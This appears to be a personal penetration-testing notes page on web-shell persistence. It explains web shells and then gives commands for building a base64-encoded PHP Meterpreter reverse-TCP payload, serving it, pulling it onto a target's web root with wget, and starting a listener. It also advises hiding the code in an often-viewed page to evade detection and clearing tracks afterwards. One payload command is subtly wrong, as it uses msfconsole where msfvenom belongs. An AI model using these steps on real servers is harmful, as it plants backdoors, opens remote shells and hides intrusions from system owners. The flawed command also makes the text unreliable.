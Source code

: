 
## General

A web shell is a type of backdoor that allows an attacker to remotely control a compromised system through a web browser. A web shell is typically a script, written in a language such as PHP or ASP, that is uploaded to a web server. Once the script is uploaded, the attacker can use a web browser to connect to the server and execute commands on the system through the web shell.

Web shells can be used to maintain persistence on a compromised system by providing the attacker with a way to remotely access and control the system over an extended period of time. The web shell can be configured to start automatically when the system is booted, or it can be triggered manually by the attacker whenever they want to access the system.

Web shells can be used to perform a variety of malicious actions, such as uploading and downloading files, modifying system settings, and executing arbitrary code on the system. They can also be used to gather sensitive information, such as passwords and other sensitive data.


## Commands

Requirements, The server need to run a webserver to create this persistance

Meterpreter Backdoor
```
# Generate the Payload
msfconsole -p php/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e php/base64 -f raw > Evilbackup.php      ---> If we use PHP

# Edit the Payload (Add php tags)
<?php
PAYLOAD
?>

# Transfer the file to the target Machine
python3 -m http.server

# Save the folder under ww
wget http://IP/Evilbackup.php
chmod +x Evilbackup.php
mv Evilbackup.php ~/var/www/html
```

Take not that you could add the code in a page that get view often also, this could be a great way to evade detection since your not creating a new file and hidding it trougt other codes

Exploit the WebShell (set lisener)
```
msfconsole
set payload php/meterpreter/reverse_tcp (Also set LHOST and LPORT)
run
```



===Dont Forget to Clear Tracks (Check [[🧹 CLEAR Logs & History]])===